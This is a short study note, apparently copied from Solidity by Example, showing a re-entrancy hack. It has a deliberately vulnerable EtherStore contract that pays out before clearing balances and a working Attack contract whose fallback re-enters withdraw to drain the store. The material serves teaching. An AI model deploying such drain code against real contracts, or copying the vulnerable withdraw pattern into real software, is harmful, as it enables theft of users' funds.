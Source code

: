 ```yaml
---
tags: Demi
---
```

# 7/29 資安蜜罐的大補包 Part2
Hacks in https://solidity-by-example.org/

## Reentry-attack
https://solidity-by-example.org/hacks/re-entrancy/
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
```